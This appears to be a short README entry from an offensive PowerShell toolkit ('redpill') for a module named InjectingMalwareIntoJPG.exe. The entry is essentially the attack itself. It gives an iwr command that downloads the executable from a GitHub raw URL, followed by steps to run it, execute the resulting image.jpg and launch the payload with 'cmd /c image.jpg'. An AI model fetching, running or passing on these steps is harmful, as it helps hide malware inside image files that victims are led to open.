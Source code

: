 ## Module Name
   <b><i>InjectingMalwareIntoJPG.exe</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|InjectingMalwareIntoJPG|Inject Malware Into JPG|UserLand|[screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/none)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/InjectingMalwareIntoJPG/InjectingMalwareIntoJPG.exe" -OutFile "InjectingMalwareIntoJPG.exe"
```

```powershell
.\InjectingMalwareIntoJPG.exe
# then follow program instructions

# execute image.jpg
.\image.jpg

# execute payload
cmd /c image.jpg
```
